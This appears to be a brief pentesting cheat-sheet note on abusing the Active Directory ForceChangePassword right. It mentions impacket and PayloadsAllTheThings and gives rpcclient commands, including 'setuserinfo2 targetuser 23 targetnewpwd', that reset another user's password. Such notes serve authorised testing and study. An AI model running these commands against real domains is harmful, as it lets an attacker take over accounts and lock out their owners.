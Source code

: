 # ForceChangePassword change user password
can exploit with impacket
payloadsallthethings "Active Directory Attack.md"
```bash
rpcclient $IP -U username -W domain.local
```
within rpcclient shell
```
setuserinfo2 targetuser 23 targetnewpwd
```
